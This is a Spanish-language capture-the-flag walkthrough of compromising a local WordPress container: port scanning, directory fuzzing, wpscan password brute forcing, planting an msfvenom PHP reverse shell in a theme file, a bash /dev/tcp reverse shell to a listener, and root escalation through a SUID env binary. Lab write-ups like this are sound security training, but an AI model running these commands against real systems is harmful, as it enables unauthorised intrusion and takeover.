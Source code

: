 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh
```

![[Pasted image 20250201124208.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250201125003.png]]

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![[Pasted image 20250201125337.png]]

![[Pasted image 20250201134452.png]]

Nos metemos en la web:

![[Pasted image 20250201134823.png]]

Buscamos un usuario con **wpscan**:

```Bash
wpscan --url http://172.17.0.2/wordpress --enumerate u
```

![[Pasted image 20250201130803.png]]

![[Pasted image 20250201131856.png]]

Encontramos el usuario mario. Ahora buscamos la contraseña:

```Bash
wpscan --url http://172.17.0.2/wordpress -U mario -P /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20250201133332.png]]

![[Pasted image 20250201133423.png]]

mario: love.

Nos logeamos:

![[Pasted image 20250201134851.png]]

Nos vamos a Apariencia -> Theme Code Editor:

![[Pasted image 20250201144943.png]]

![[Pasted image 20250201162508.png]]

Nos saldrá una página index.php que meteremos nuestro código.

![[Pasted image 20250201162554.png]]

Creamos código con **msfvenom** para una shell.php:

```Bash
msfvenom -p php/reverse_php  LHOST=172.17.0.1 LPORT=4444 -f raw > shell.php
```

![[Pasted image 20250201144730.png]]

Lo copiamos:

```Bash
cat shell.php
```

![[Pasted image 20250201144804.png]]

Lo pegamos y subimos en index.php:

![[Pasted image 20250201144914.png]]

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 4444
```

![[Pasted image 20250201135929.png]]

Nos ponemos otra:

```Bash
nc -lnvp 443
```

![[Pasted image 20250201145606.png]]

Ejecutamos la ruta en el navegador:

```Bash
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php
```

![[Pasted image 20250201145258.png]]

Miramos en la shell:

![[Pasted image 20250201145543.png]]

Nos la mandamos a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

![[Pasted image 20250201145838.png]]

Miramos la otra shell:

![[Pasted image 20250201145933.png]]

Elevamos privilegios:

```Bash
find / -perm -4000 2>/dev/null
```

![[Pasted image 20250201155731.png]]

```Bash
/usr/bin/env /bin/bash -p
```

![[Pasted image 20250201150345.png]]

```Bash
whoami
```

![[Pasted image 20250201154317.png]]


